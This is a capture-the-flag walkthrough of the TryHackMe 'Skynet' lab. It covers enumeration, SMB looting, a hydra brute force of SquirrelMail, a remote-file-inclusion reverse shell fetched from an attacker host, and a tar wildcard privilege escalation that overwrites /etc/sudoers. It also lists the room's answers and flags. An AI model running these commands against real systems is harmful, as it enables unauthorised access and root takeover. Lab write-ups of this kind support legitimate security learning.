Skynet
Platform: TryHackMe
Type: Challenge
Difficulty: Easy
Link: Skynet
Description
"A vulnerable Terminator themed Linux machine."
Enumeration
I generated a list of open ports for more comprehensive enumeration with the following:
ports=$(nmap -p- --min-rate=1000 TARGET_IP_ADDRESS | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
This revealed the following open ports:
- 22
- 80
- 110
- 139
- 143
- 445
I ran a full nmap scan to query the services for version information, as well as querying the target system for OS information with nmap -p$ports -A -T4 TARGET_IP_ADDRESS, which revealed the following:


I used my go-to
ffuf command to enumerate the website (ffuf -u http://TARGET_IP_ADDRESS/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c) as a quick directory discovery, whilst also running my standard gobuster command (gobuster dir -u TARGET_IP_ADDRESS -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,html,txt) to probe a bit more thoroughly, looking for files as well.Whilst the scans were running, I navigated to the web page in a browser to find what looked like a search engine but it wasn't functional. There were no
robots.txt or sitemap.xml files, and there was nothing interesting in the source code. The ffuf scan did reveal a couple of interesting directories:
Of the discovered directories, the only one that was accessible was
/squirrelmail but I had no credentials (and there was nothing interesting in the source code), so with nothing additional found in the gobuster scan, I moved on to enumerating SMB.
I used smbclient to enumerate the available shares:smbclient -N -L \\\\TARGET_IP_ADDRESS
The only one of the shares I was able to enumerate further was the "anonymous" share:

I downloaded the only files that had a file size. The
attention.txt file contained a notice to employees to tell them of a forced password change, and contained a username that matched one of the SMB shares so I noted this as a potential username. On the surface, the contents of the log1.txt file didn't have anything of use - but the lines of text did look like possible passwords or password attempts (as this was named to appear as a log file) so I saved them into a password.lst file for use later.
As a final enumeration act, I used searchsploit to see if there were any vulnerabilities for the versions revealed in the nmap scan but there were no useful results.
Foothold
Knowing that there was a login portal on the /squirrelmail page, I opened Burp Suite to capture the POST request field names for use with hydra (the username came from the SMB enumeration):

hydra -l milesdyson -P password.lst TARGET_IP_ADDRESS http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."
What is Miles password for his emails?
cyborg007haloterminator
I logged into the /squirrelmail portal with the discovered credentials and found 3 emails. The oldest one appeared to contain some garbled communication attempt; the second contents were in binary (which translated to the same garbled communication from the oldest message); the third contained something actually useful:

Using the password found in the email and the
milesdyson user, I attempted to connect to the milesdyson SMB share discovered during enumeration:
Downloading the only file that doesn't appear to be directly related to the robotics industry provides a hidden web directory:

What is the hidden directory?
/45kra24zxs28v3yd
I repeated the ffuf and gobuster scans using the newly discovered hidden directory as the base directory. Whilst I waited for the scans to finish, I navigated directly to it in a web browser but found nothing of interest. The ffuf scan did reveal another page to enumerate further:

Navigating to this new page revealed a CMS login page, and whilst I had no credentials to use,
searchsploit provided a very helpful result:
What is the vulnerability called when you can include a remote file for malicious purposes?
Remote file inclusion
Looking through the code associated with the result suggested that it might be possible to establish a reverse shell using an RFI in the alerts/alertConfigField.php endpoint. I hosted a copy of the pentestmonkey PHP reverse shell (updating the IP variable first) in a Python web server (with python3 -m http.server 8000), opened a netcat listener (with nc -lvnp 1234) and navigated to "http://TARGET_IP_ADDRESS/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://ATTACKER_IP_ADDRESS/SHELL_NAME.php" in the web browser, resulting in an established connection to my netcat listener.
After stabilising my shell (python3 -c 'import pty; pty.spawn("/bin/bash")'), finding and reading the contents of the user flag was trivial:

What is the user flag?
7ce5c2109a40f958099283600a9ae807
Privilege Escalation
I started with the same usual low-hanging fruits I always do - checking sudo rights, searching for SUID/SGID files, and checking the contents of /etc/crontab but there were no leads there. I moved on to checking the home directory for the milesdyson user and found an interesting looking backups folder, with a script file that contained some potentially useful information:

At first I wasn't sure about how I might be able to leverage this (clearly non-standard) script but after a bit of Googling, I found this post about Linux privilege escalation with
tar wildcards, which describes the vulnerability really clearly. Essentially:
- Using the
*wildcard with thetarcommand will instruct the programme to compress all the contents of the current working directory. tarwill interpret any files with names that match switches for the programme as those switches, not as files.- Other shell commands can be executed with
tarusing the--checkpointand--checkpoint-actionswitches in combination. - When
taris being executed asrootwith a wildcard, any commands executed with thetar+--checkpoint+--checkpoint-actioncombination are executed as root.
Following the article through, I executed the following commands to take advantage of the misconfiguration by giving mywww-datauser the ability to execute any command assudowithout the need for a password:
After this, I needed to wait for thecd /var/www/html echo "" > '--checkpoint=1' echo "" > '--checkpoint-action=exec=sh privesc.sh'echo "" > '--checkpoint=1' echo "" > '--checkpoint-action=exec=sh privesc.sh' touch privesc.sh echo "echo 'www-data ALL=(root) NOPASSWD: ALL' > /etc/sudoers" > privesc.shbackup.shscript to run, but I didn't have long to wait before I was able to execute the following, getting the root flag:
sudo bash cat /root/root.txt
What is the root flag?
3f0372db24753accc7179a282cd6a949
Tools Used
Burp Suite hydra searchsploit python nc tar
Date completed: 11/04/26
Date published: 11/04/26